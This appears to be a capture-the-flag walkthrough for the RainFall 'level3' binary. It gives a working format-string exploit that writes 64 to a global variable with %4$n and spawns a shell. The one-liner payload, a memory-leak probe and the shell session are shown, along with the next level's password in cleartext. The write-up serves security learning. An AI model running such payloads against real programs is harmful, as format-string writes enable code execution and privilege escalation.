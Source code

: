 # Walkthrough

## Solution

```
level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Explanation

### Execution

```
level3@RainFall:~$ ./level3 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info var
0x0804988c  m

info function
0x080484a4  v
0x0804851a  main
```

### Steps

The variable m, located at 0x804988c has to be = to 64 in order to launch the syscall to /bin/sh.  

Direct parameter access allows parameters to be accessed directly by using the dollar sign qualifier.  
For example, %n$d would access the nth parameter and display it as a decimal number.  
This method of direct access eliminates the need to step through memory until the beginning
of the format string is located, since this memory can be accessed directly.  

We use %p or %x to know where our m variable starts in the memory.  
```
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p %p 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
-> The 4th one is pointing at our input (AAAA), we need to overwrite the 4th argument (A = 41).  

If we replace the 4th %p by a %n, we will be able to write where the 4th %p is pointing at (i.e. at 0x41414141).  
But this address doesn't exist, so we get a segfault when we do ./level3 AAAA%p%p%p%n.  


%4$n: the 4th element of the stack is a %n, equivalent to writing %x%x%x%n, except the 3 %x won't print.  
%n writes the number of characters there is before the %n, where it is pointing at.  

If we can find the pointer to "AAAA", we can replace AAAA by a specific address to write to.  
We want to write at address 0x804988c, if we do :  
\x8c\x98\x04\x08%4$n, it will write 4 at 0x804988c, as an address is 4 bytes long.  

> -> we therefore need to print 64 characters before the %n to store 64 at 0x804988c,  
in order to pass the cmp and launch the shell.  
`
The beginning of the format string should consist of the target memory address, 60 bytes of junk,
and then 4th parameter printed as %n (=64, target address (4bytes) + 60 * A + %4$n).
`
### Final command

level3@RainFall:~$ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
